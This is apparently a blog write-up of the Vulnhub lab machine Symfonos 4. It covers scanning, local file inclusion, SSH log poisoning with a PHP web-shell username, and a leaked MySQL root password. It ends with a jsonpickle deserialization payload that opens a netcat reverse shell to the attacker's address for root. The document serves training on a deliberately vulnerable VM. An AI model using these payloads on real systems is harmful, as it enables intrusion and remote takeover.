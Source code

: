 ```yaml
---
layout: PostSimple
date: 2020-03-12
title:     "Vulnhub - Symfonos 4"
tags: ['medium','port_forward','log-poisoning','mysql']
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/2.png)

Downloaded all log files to my machine.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/3.png)

``hades.log``

```
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
```

``poseidon.log``

```
Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.
```


``zeus.log``

```
Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.
```

``/atlantis.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference : https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '[?php system($_GET['c']); ?](?php system($_GET['c']); ?)'@192.168.1.136```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/13.png)

MySql Commands: http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/14.png)

- Port 3306 - MySQL
- Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too. (https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/)

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

```
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}
```

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/21.png)